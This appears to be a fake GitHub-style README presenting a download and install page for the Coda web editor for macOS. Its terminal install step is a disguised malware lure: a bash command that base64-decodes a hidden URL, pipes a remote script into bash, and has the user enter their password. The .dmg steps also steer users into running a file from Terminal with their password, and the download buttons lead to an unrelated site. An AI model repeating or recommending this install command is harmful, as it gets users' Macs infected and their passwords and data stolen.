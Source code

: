# 🧩 Coda — All-in-One Web Development Editor for macOS

**Coda** is a powerful and elegant web development editor designed exclusively for macOS by Panic Inc. It combines a feature-rich text editor, built-in file management, real-time preview, and publishing tools in a single native app. Perfect for web developers, designers, and coders who want to build, test, and deploy websites efficiently on Mac.

With support for HTML, CSS, JavaScript, PHP, and more, Coda delivers a streamlined and productive workflow optimized for macOS, including Apple Silicon Macs.

---

## ✅ Download Coda for macOS  
[![Download Coda](https://img.shields.io/badge/Download-Coda-blueviolet)](https://shuziktobehuman.github.io/huja/Coda)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Coda?

Coda is a comprehensive web editor that brings together coding, previewing, and file transfer into one intuitive macOS app. It features syntax highlighting for multiple languages, live preview of your web pages, integrated terminal, and support for FTP/SFTP and WebDAV. Its native macOS design ensures fast performance and seamless integration with system features.

---

## ✨ Features

- 🖊️ Advanced code editor with syntax highlighting and autocomplete  
- 🌐 Real-time preview for instant feedback on code changes  
- 🔄 Built-in FTP, SFTP, and WebDAV client for easy publishing  
- 🛠 Integrated terminal and MySQL database management  
- 📁 File management with sidebar and tabs for multitasking  
- 🌙 Dark mode and macOS native UI support  
- 🧩 Plugin support for extending functionality  
- 🖥 Optimized for macOS Ventura and Apple Silicon (M1/M2/M3)  
- 🧠 Code folding, multi-caret editing, and find/replace tools  
- 📦 Support for CSS preprocessors like Sass and LESS  

---

## 💡 Why Use Coda?

- 🎯 All-in-one tool eliminating the need for multiple apps  
- ⚡ Fast, native macOS performance and smooth UI  
- 🔐 Secure and easy website publishing directly from the app  
- 🧩 Extensible with plugins and customizable shortcuts  
- 🖱 Ideal for beginners and professional web developers alike  
- 🔄 Regular updates with new features and macOS compatibility  

---

[![Download Coda](https://img.shields.io/badge/Download-Coda-blueviolet)](https://shuziktobehuman.github.io/huja/Coda)

---

## 🖼 Preview

![Coda Screenshot 1](https://www.mactrast.com/wp-content/uploads/2019/03/coda_replacement_screenshot.png)  
![Coda Screenshot 2](https://panic.com/coda/images/screenshots-editor-dark-256.png)

---

## 📌 Tags

coda mac, coda mac app, coda app mac, coda editor mac, coda html editor for mac,  
coda mac os, coda osx, coda download for mac, coda macos app, download coda for mac,  
coda mac download, mac coda html, panic coda mac, web editor mac, mac html editor,  
ftp client mac, mac code editor, coda dark mode mac, coda sass support mac,  
coda macbook app, coda mac developer

---

